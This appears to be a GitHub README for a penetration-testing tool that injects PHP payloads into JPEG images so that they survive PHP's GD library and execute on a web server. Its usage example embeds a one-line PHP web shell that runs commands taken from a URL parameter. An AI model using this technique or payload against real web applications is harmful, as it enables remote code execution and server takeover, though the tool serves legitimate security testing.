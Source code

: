 # php-jpeg-injector
Injects php payloads into jpeg images. Related to [this post](https://github.com/fakhrizulkifli/Defeating-PHP-GD-imagecreatefromjpeg).

# Use Case
You have a web application that runs a jpeg image through PHP's GD graphics library.

# Description
This script injects PHP code into a specified jpeg image. The web application will execute the payload if it interprets the image.

# Usage
`python3 gd-jpeg.py [JPEG] [PAYLOAD] [OUTPUT]`

e.g. `python3 gd-jpeg.py cat.jpeg '<?php system($_GET["cmd"]);?>' infected_cat.jpeg`

# How it works
PHP code is injected in the null/garbage (brown) space after the scan header:

![header](https://camo.githubusercontent.com/0caae5a119b1d4c0bb4aed9504ce5086301cd100/687474703a2f2f692e696d6775722e636f6d2f696c35666841612e6a7067 "scan header")

The new infected jpeg is run through PHP's gd-library. PHP interprets the payload injected in the jpeg and executes it.
